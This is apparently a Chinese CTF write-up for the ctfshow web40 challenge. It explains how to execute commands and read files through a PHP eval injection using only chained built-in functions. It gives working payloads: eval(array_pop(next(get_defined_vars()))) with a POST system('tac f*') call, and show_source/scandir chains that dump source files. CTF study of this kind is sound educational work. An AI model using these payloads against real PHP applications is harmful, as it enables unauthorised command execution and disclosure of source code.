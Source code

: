 ```yaml
---
title: PHP仅用函数实现执行命令或读取文件
date: 2024-05-15 21:53:24
permalink: /pages/d74e00/
categories:
  - web
tags:
  - php
author: 
  name: Cola
  link: https://the0n3.top
---
```


# ctfshow web40 命令执行_php变量函数

> 使用php函数让服务器接收并执行自己的命令，获取权限或读取文件  

## 执行命令

```php
get_defined_vars()    # 获取所有系统定义的变量，用户定义的变量，post,get,file等，返回一个数组
next()                # 指向数组中变量的指针
array_pop()           # 弹出数组中最后一个元素
eval()                # 执行表达式或参数字符串命令
```

从里到外构造一下，执行最后一个定义的变量

连起来构造：  
**payload：url/?c=eval(array_pop(next(get_defined_vars())));**  

这个c的值会先获取服务器定义的所有变量，再利用这个数组的栈机制和next指针，获取服务器最后一个变量并执行  

构造完，他的变量数组最后一个定义的什么以及他会执行什么我们都不知道，用post给他传一个**1=system("tac f*");** 作为最后一个变量并执行  
 
## 读文件

```php
getcwd()            #  函数返回当前工作目录。它可以代替pos(localeconv())

localeconv()        #  返回包含本地化数字和货币格式信息的关联数组。这里主要是返回值为数组且第一项为"."

pos()               # 输出数组第一个元素，不改变指针；

current()           # 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样

scandir()           # 函数返回指定目录中的文件和目录的数组。这里因为参数为"."所以遍历当前目录

array_reverse()     # 数组逆置

next()              # 将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以

show_source()       # 查看源码
```

每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。

提示：该函数不会移动数组内部指针

**payload：url/?c=show_source(next(array_reverse(scandir(getcwd()))));**

**payload：url/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));**

船新玩法**var_dump**函数，待解锁！  

**类似函数var_export**
